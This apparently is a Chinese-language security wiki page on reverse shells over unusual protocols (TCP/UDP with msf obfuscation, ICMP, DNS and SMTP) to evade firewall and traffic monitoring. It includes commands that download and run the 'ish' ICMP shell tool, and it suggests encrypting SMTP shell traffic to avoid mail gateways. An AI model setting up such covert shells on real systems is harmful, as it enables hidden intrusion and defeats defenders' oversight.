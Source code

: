 ## reverse_shell

这里说的反弹shell不是上面开头那里说的利用内部软件进行反弹，而是利用一些非常规协议来绕过一些安全设备的流量监测功能。

**tcp/udp shell**

tcp/udp的shell可以使用msf生成的tcp马、流量混淆推荐rc4和https偏执模式，也能够绕过一些防火墙。

**icmp shell**

使用ICMP来作为隐蔽通道的原理是：有一个服务端和一个客户端，当它们通信时会用到 ICMPECHO 和 ICMPECHOREPLY的数据部分。这就意味着通过ICMP包的数据部分可以发送和接收数据。

![](images/security_wiki/15905816068023.png)



这里用python写了一个嗅探功能的小脚本 因为icmp是没有端口概念的，也就无法直接建立两台主机上ICMP应用程序的通信。所以程序需要从嗅探到的icmp包中再传给应用层，然后再执行其他的。

![](images/security_wiki/15905816207249.png)


这里使用ish演示

```bash
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz

```

被控端

```bash
./ishd -i 6666 -t 0 -p 1024 -d

```

控制端

```bash
./ish -i 6666 -t 0 -p 1024 127.0.0.1

```

![](images/security_wiki/15905816340599.png)


这样利用icmp传输可以绕过大部分的设备。

**DNS/smtp shell**

这里提一下DNS和smtp服务。之前做的分享中有关于SMTP协议传输shell的思路，其实是利用smtp协议可以出网的思路，写一个smtp的客户端和服务端对应发送和接受执行内容，传输为了方便演示使用的是明文，为了增加迷惑性，添加删除邮件功能，需要提高的就是可以对传输的文本内容进行混淆加密之类的，防止安全邮件网关根据关键字拦截邮件。DNS这个的话就是通过解析记录的内容来进行命令的执行，还可以配合dnslog来使用。

![b062b0d2b24a485ea712cb9e6b563ea5](images/security_wiki/b062b0d2b24a485ea712cb9e6b563ea5.gif)


